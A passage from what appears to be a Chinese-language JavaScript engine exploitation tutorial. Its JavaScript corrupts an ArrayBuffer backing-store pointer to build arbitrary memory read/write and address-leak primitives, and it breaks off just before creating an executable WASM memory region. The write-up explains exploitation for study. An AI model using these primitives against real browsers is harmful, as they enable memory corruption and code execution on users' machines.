 ```
000003a6`93410bb0  000003a6`93410aa1 000003d8`18a825a1
000003a6`93410bc0  000003d8`18a825a1 000003d8`18a823a1
```
其中000003A6934109F9为arrBuf1地址，0x03a693410ba1为properties地址，观察可得
properties地址在000003A6934109F9（arrBuf1地址）偏移8处，leakme的地址位于0x03a693410ba1（properties地址）偏移16处，为此构建一个新的addrOf函数
```JS
let memory = {
  addrOf(obj) {
    // Set object address to new out-of-line property called leakme
    arrBuf2.leakMe = obj;
    // Use read64 primitive to leak the properties backing store address of our array buffer
    let props = this.read64(arrBuf2Addr + 8n) - 1n;
    // Read offset 16 from the array buffer backing store and return the address of our object
    return this.read64(props + 16n) - 1n;
  }
};
```
之后更新之前的代码
```JS
print("[+] Finding Overlapping Properties...");
findOverlappingProperties();
print(`[+] Properties p${p1} and p${p2} overlap!`);

// Create Array Buffers
let arrBuf1 = new ArrayBuffer(1024);
let arrBuf2 = new ArrayBuffer(1024);

// Leak Address of arrBuf2
print("[+] Leaking ArrayBuffer Address...");
let arrBuf2Addr = addrOf(arrBuf2);
print(`[+] ArrayBuffer Address: 0x${arrBuf2Addr.toString(16)}`);

// Corrupt Backing Store Pointer of arrBuf1 with Address to arrBuf2
print("[+] Corrupting ArrayBuffer Backing Store Address...")
let originalArrBuf1BackingStore = fakeObj(arrBuf1, arrBuf2Addr);

// Store Original Backing Store Pointer of arrBuf2
let view1 = new BigUint64Array(arrBuf1)
let originalArrBuf2BackingStore = view1[4]

// Construct our Memory Read and Write Primitive
let memory = {
  read64(addr) {
    view1[4] = addr;
    let view2 = new BigUint64Array(arrBuf2);
    return view2[0];
  },
  write64(addr, ptr) {
    view1[4] = addr;
    let view2 = new BigUint64Array(arrBuf2);
    view2[0] = ptr;
  },
  addrOf(obj) {
    arrBuf2.leakMe = obj;
    let props = this.read64(arrBuf2Addr + 8n) - 1n;
    return this.read64(props + 16n) - 1n;
  }
};
print("[+] Constructed Memory Read and Write Primitive!");

// Generate RWX region via WASM
```
